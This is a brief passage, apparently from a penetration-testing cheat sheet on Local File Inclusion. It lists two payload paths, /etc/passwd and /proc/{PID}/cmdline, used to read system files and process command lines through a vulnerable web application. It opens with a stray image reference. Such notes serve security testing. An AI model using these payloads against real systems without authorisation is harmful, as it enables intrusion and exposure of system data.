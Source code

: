 # Local File Inclusion

Payloads

```bash
/etc/passwd
```

Show command used to run the process

```bash
/proc/{PID}/cmdline
```
